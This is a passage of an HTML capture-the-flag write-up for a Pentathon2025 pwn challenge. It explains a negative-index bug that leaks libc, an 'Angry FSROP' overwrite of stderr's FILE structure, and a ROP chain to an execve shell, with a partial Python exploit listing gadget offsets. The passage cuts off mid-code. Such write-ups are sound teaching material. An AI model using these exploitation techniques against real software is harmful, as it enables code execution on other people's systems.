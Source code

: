                 <b>Also, here's a lovely bug in <code>read_note()</code>:</b><br>
                <img src="{{ '/writeups/Pentathon2025/assets/third.png' | relative_url }}" alt="snippet" class="code-screenshot" />
                <code>if (v1 > 10) // but what about v1 < 0?</code><br>
                Negative indexing was possible. Which meant I could reach libc symbols like <code>stderr@GLIBC_2.2.5</code>, and boom — libc leak obtained.
                <img src="{{ '/writeups/Pentathon2025/assets/fourth.png' | relative_url }}" alt="snippet" class="code-screenshot" />
            </p>
        </div>
        <div class="section-content">
            <h2>Fsrop, but make it Angry</h2>
            <p>
                With no classic read/write primitives, no stack leak, and no easy ROP setup... I knew where this was heading.<br>
                <h4><code>Angry-Fs(r)op.</code></h4><br>
                This one’s beautifully explained in <a href="https://blog.kylebot.net/2022/10/22/angry-FSROP/" target="_blank">Kylebot's blog</a>, so I won’t repeat it all.<br><br>
                <b>TL;DR:</b> Overwrite entities such as <code>vtable</code>, <code>wide_data</code> etc of file structs like stderr, stdout, stdin, get code execution when libc uses it in functions like printf(), scanf(), fwrite(), fread() etc.
            </p>
        </div>
        <div class="section-content">
            <h2>Fsrop Strategy</h2>
            <p>
                We found a neat trigger:<br>
                <pre><code>fwrite("\n!! NOTE ACCESS FAIL !!\n", 1uLL, 0x18uLL, stderr);</code></pre>
                This happens when <code>write_note()</code> fails with an invalid index (e.g., >10).<br>
                Perfect candidate for overwriting.<br><br>
                We overwrite <code>stderr</code> file struct, make it land on our fake structures, and boom — hijack the control flow.<br>
                What we overwrote ?<br>
                <ul>
                    <li><code>stderr.flags = 0xfbad2000</code> → marks file readable</li>
                    <li><code>_IO_read_ptr = leaked heap ptr</code> → points to fake wide_data</li>
                    <li><code>stderr.vtable = _IO_wfile_overflow - 0x38</code></li>
                    <li><code>stderr.wide_data = leaked heap ptr</code> → fake stack goes here</li>
                </ul>
                Why the <code>leaked heap ptr</code>? Because we’ll pivot our stack to this memory and drop a nice ROP chain right there.
            </p>
        </div>
        <div class="section-content">
            <h2>ROP Chain Time</h2>
            <p>
                We crafted a fake stack with the usual gadgets:<br>
                <ul>
                    <li>set <code>rdx</code> to NULL</li>
                    <li>set <code>rsi</code> to NULL</li>
                    <li><code>onegadget</code> for that nice little <code>execve()</code> shell</li>
                </ul>
                All written using our <code>write_note()</code> primitive. Here's what the fake stack looked like:<br><br>
                <pre><code class="language-python">stack_pivot = fake_widedata_entry + 168 + 8
pop_rsi = libc + 0x0000000000030081
pop_rdx_r12 = libc + 0x00000000001221f1
shell = b"/bin/zsh"
ret = libc + 0x1aa854
fake_stack = libc + 0xeeaa2
fake_stack = b"\x00"*32
fake_stack += p64(setcontext)
fake_stack += b"\x00"*64
fake_stack += p64(handle)